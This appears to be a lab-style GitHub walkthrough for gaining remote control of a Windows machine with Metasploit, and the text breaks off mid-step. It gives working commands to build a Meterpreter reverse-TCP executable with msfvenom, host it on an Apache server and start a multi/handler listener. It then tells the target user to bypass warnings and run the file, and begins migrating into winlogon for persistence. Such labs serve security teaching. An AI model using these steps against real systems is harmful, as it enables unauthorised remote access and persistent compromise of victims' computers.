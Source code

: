 ### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
<img width="795" height="423" alt="image" src="https://github.com/user-attachments/assets/8ac2cac9-f182-4fa7-b094-d7c9414f0958" />



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
<img width="682" height="212" alt="image" src="https://github.com/user-attachments/assets/4c30906e-cf58-47cc-85d5-8f3de0845bd1" />



copy the fun.exe into the apache ```/var/www/html ```folder
<img width="336" height="79" alt="Screenshot 2025-10-04 142629" src="https://github.com/user-attachments/assets/759580ea-4411-4c34-9f2b-3c76fc20f01c" />



Start apache server ```sudo systemctl apache2 start``` 
<img width="844" height="371" alt="Screenshot 2025-10-04 142743" src="https://github.com/user-attachments/assets/e3b8f1a5-6aad-4510-9ec7-eb513ecab49c" />


Invoke msfconsole:
<img width="813" height="864" alt="Screenshot 2025-10-04 143118" src="https://github.com/user-attachments/assets/36931856-188b-4e7d-9a4d-2c49257e7907" />

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
<img width="883" height="951" alt="Screenshot 2025-10-04 143202" src="https://github.com/user-attachments/assets/3e86efad-d98e-4917-92f0-da4a598f57a6" />

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="540" height="146" alt="image" src="https://github.com/user-attachments/assets/e8e54096-62cb-46eb-b4b3-e38541597833" />


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit



To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
